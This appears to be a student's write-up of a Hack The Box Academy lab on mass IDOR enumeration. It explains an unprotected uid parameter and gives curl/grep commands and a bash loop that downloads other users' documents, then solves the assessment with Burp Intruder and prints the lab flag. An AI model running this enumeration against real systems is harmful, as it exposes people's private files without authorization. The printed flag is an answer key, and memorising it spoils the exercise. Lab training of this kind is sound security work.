 # Mass IDOR Enumeration

### Insecure Parameters

web application that hosts employee records:

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_employee_manager.jpg" alt=""><figcaption><p>Employee Manager</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=1</p></figcaption></figure>

we are logged in as employee who as `uid=1`, In the web app we see the documents uploaded by our user. the links of the files are.

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

If we change the uid value to `uid=2`, we will see that the links of the documents changed to&#x20;

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end.

### Mass Enumeration

Although we could enumerate manually and get the documents, it is not efficient. It's better to automate the task using Burp Intruder or ZAP Fuzzer to retrive the files.

To do so, we check the HTML source code of the files.

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

**pick any unique word to be able to `grep` the link of the file**. (we know each link starts with \
`<li class='pure-tree_link'>`

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```

**Using Regex pattern to grep**

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

> match strings between /documents and .pdf

simple bash script to get the documents with different uid

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Assessment

get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

<figure><img src="../../../.gitbook/assets/image (95) (1).png" alt=""><figcaption><p>Send request to intruder</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption><p>payload 1-20</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption><p>request number 15 has very different size of response.</p></figcaption></figure>

We found the flag where `uid=15`

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption><p>HTB{4ll_f1l35_4r3_m1n3}</p></figcaption></figure>


